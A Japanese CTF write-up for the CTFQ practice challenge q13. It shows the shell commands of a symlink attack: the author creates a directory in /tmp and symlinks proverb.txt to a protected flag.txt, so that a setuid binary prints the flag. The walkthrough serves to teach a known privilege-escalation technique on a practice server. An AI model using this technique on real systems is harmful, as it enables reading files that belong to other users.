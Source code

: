 自力解答ならず。  

```bash
$ ssh q13@ctfq.u1tramarine.blue -p 10013
q13@ctfq.u1tramarine.blue's password:
This server will destruct in 10 minutes.
Keep your progress by yourself.
```

```bash
$ ls -alF
total 52
dr-xr-xr-x 1 root root  4096 Feb 25  2021 ./
drwxr-xr-x 1 root root  4096 Feb 25  2021 ../
-rw-r--r-- 1 q13  q13     18 Jul 21  2020 .bash_logout
-rw-r--r-- 1 q13  q13    141 Jul 21  2020 .bash_profile
-rw-r--r-- 1 q13  q13    543 Feb 25  2021 .bashrc
-r-------- 1 q13a q13a    22 Feb 25  2021 flag.txt
---s--x--x 1 q13a q13a 24144 Feb 25  2021 proverb*
-r--r--r-- 1 q13a q13a   755 Feb 25  2021 proverb.txt
```

```bash
$ cat proverb.txt
All's well that ends well.
A good beginning makes a good ending.
Many a true word is spoken in jest.
Fear is often greater than the danger.
Go for broke!
Fire is a good servant but a bad master.
The wolf knows what the ill beast thinks.
There is always a next time.
Spare the rod and spoil the child.
The calm before the storm.
The die is cast.
Take heed of the snake in the grass.
Confidence is a plant of slow growth.
Love is blind.
The sky's the limit...
Truth lies at the bottom of a well.
Blood is thicker than water.
Ignorance is bliss.
There's no way out.
Full of courtesy, full of craft.
Heaven helps those who help themselves.
Bad luck often brings good luck.
Misfortunes never come singly.
Nothing ventured, nothing gained.
Eternal Immortality.
```

実行ファイルの``proverb``は``proverb.txt``の中身をランダムに一行分だけ表示するプログラムのようだ。  

で、どないすりゃええねん。  

### 正解

Symlink Attack（シンボリックリンク攻撃）を行う。  
リンク先に対する権限がなくてもシンボリックリンクは作成可能なのを利用した攻撃手法（はじめて知った）。  

``proverb``は所有者（``q13a``）の実行権限が``s``となっている。  

```bash
$ ls -alF
total 52
dr-xr-xr-x 1 root root  4096 Feb 25  2021 ./
drwxr-xr-x 1 root root  4096 Feb 25  2021 ../
-rw-r--r-- 1 q13  q13     18 Jul 21  2020 .bash_logout
-rw-r--r-- 1 q13  q13    141 Jul 21  2020 .bash_profile
-rw-r--r-- 1 q13  q13    543 Feb 25  2021 .bashrc
-r-------- 1 q13a q13a    22 Feb 25  2021 flag.txt
---s--x--x 1 q13a q13a 24144 Feb 25  2021 proverb*
-r--r--r-- 1 q13a q13a   755 Feb 25  2021 proverb.txt
```

これは他のユーザが実行した場合、``q13a``の権限で実行されることになる。  
もし``q13a``にしか閲覧権限のない``flag.txt``の名前を``proverb.txt``に変更することができたとしたら、``proverb``を介して``flag.txt``の中身を閲覧できることを示唆する。  

``q13``はホームディレクトリのくせに書き込み権限がないので、シンボリックリンク攻撃によく使用される``/tmp``を見てみる。  

```bash
$ ls -alF /
total 64
drwxr-xr-x   1 root root 4096 May  7 03:50 ./
drwxr-xr-x   1 root root 4096 May  7 03:50 ../
-rwxr-xr-x   1 root root    0 May  7 03:50 .dockerenv*
lrwxrwxrwx   1 root root    7 Nov  3  2020 bin -> usr/bin/
drwxr-xr-x   5 root root  340 May  7 03:50 dev/
drwxr-xr-x   1 root root 4096 May  7 03:50 etc/
drwxr-xr-x   1 root root 4096 Feb 25  2021 home/
lrwxrwxrwx   1 root root    7 Nov  3  2020 lib -> usr/lib/
lrwxrwxrwx   1 root root    9 Nov  3  2020 lib64 -> usr/lib64/
drwx------   2 root root 4096 Dec  4  2020 lost+found/
drwxr-xr-x   2 root root 4096 Nov  3  2020 media/
drwxr-xr-x   2 root root 4096 Nov  3  2020 mnt/
drwxr-xr-x   2 root root 4096 Nov  3  2020 opt/
dr-xr-xr-x 253 root root    0 May  7 03:50 proc/
dr-xr-x---   2 root root 4096 Dec  4  2020 root/
drwxr-xr-x   1 root root 4096 May  7 03:50 run/
lrwxrwxrwx   1 root root    8 Nov  3  2020 sbin -> usr/sbin/
drwxr-xr-x   2 root root 4096 Nov  3  2020 srv/
dr-xr-xr-x  13 root root    0 Mar  7 20:24 sys/
drwxrwxrwt   1 root root 4096 May  7 03:55 tmp/
drwxr-xr-x   1 root root 4096 Dec  4  2020 usr/
drwxr-xr-x   1 root root 4096 Dec  4  2020 var/
```

所有者はもちろん``root``だが他ユーザでも``/tmp``の中でファイルを生成可能。  
シンボリックリンク攻撃をしかけるには当該ディレクトリが実行ユーザの所有物である必要があるので、``/tmp``直下にサブディレクトリを作成し、その中でシンボリックリンクを張る。  

```bash
$ cd /tmp/
$ mkdir hoge
$ ls -alF /tmp/
total 40
drwxrwxrwt 1 root root 4096 May  7 03:55 ./
drwxr-xr-x 1 root root 4096 May  7 03:50 ../
drwxrwxrwt 2 root root 4096 Dec  4  2020 .ICE-unix/
drwxrwxrwt 2 root root 4096 Dec  4  2020 .Test-unix/
drwxrwxrwt 2 root root 4096 Dec  4  2020 .X11-unix/
drwxrwxrwt 2 root root 4096 Dec  4  2020 .XIM-unix/
drwxrwxrwt 2 root root 4096 Dec  4  2020 .font-unix/
drwxrwxr-x 2 q13  q13  4096 May  7 03:55 hoge/
-rwx------ 1 root root  701 Dec  4  2020 ks-script-esd4my7v*
-rwx------ 1 root root  671 Dec  4  2020 ks-script-eusq_sc5*
$ cd /tmp/hoge
$ ln -s /home/q13/flag.txt proverb.txt
$ ls -alF
total 8
drwxrwxr-x 2 q13  q13  4096 May  7 04:03 ./
drwxrwxrwt 1 root root 4096 May  7 04:01 ../
lrwxrwxrwx 1 q13  q13    18 May  7 04:03 proverb.txt -> /home/q13/flag.txt
```

これで``proverb``はカレントディレクトリの``proverb.txt（実態は /home/q13/flag.txt）``を読み込むことになり、中身を表示する。  
``/tmp/hoge/``にいるので絶対パス形式で実行。  

```bash
$ /home/q13/proverb
```

### 参考

- [シンボリックリンクの悪用 | IPA](https://www.ipa.go.jp/security/awareness/vendor/programmingv1/b07_01.html)
